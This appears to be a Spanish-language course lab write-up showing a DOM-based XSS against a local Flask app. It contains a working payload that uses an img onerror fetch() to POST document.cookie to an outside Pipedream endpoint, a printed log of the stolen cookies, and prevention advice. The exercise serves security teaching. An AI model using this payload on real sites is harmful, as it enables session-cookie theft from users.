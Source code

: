 # Práctica 7 - Ejercicio 3: DOM-based XSS

## Cómo realizar el ataque

1. Inicia la aplicación Flask ejecutando `python app.py` en la carpeta `3`.
    
2. Crea un endpoint en `https://pipedream.com`: `https://eoay3fm9fuuq3wd.m.pipedream.net`.
    
3. (Opcional) Inicia sesión en `http://localhost:5003/login` con las credenciales de un usuario (por ejemplo, `admin`/`admin`) para generar una cookie de sesión, o usa una cookie de prueba configurada en la ruta `/dom`.
    
4. Abre un navegador (Firefox o Pale Moon) y accede a:
    
    ```
    http://localhost:5003/dom?q=%3Cimg%20src%3Dx%20onerror%3D%22fetch(%27https://eoay3fm9fuuq3wd.m.pipedream.net%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Adocument.cookie%7D)%22%3E
    ```
    
5. La plantilla `dom.html` inserta el parámetro `q` en el DOM con `innerHTML`, ejecutando el script en el atributo `onerror` de la etiqueta `<img>`.
    

## Resultado

- El script envía una solicitud POST a `https://eoay3fm9fuuq3wd.m.pipedream.net` con las cookies del navegador en el cuerpo de la solicitud.
    
- En Pipedream, se observa la solicitud POST con un cuerpo como `test_cookie=test_value_123` : "steps.trigger{2}
    
    context{19}
    
    event{7}
    
    method:`POST`
    
    path:`/`
    
    •
    
    query{0}
    
    client_ip:`47.62.14.56`
    
    url:`https://eoay3fm9fuuq3wd.m.pipedream.net/`
    
    headers{13}
    
    body
    
    `language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJlGM1wWxalND5reZRLzmXk6BbmzZRb3; test_cookie=test_value_123"`
    
- Esto demuestra que la aplicación es vulnerable a DOM-based XSS, permitiendo el robo de cookies.
    

## Prevención

- Usar `textContent` en lugar de `innerHTML`.
- Sanitizar entradas con `DOMPurify`.
- Implementar CSP: `Content-Security-Policy: script-src 'self'`.
- Validar parámetros de la URL en el cliente.
- Usar cookies con `SameSite=Strict` o `SameSite=Lax`.

## Capturas de pantalla

- **Captura 1**: Página en `http://localhost:5003/dom` mostrando la inyección.
- **Captura 2**: Solicitud POST recibida en Pipedream con las cookies en el cuerpo.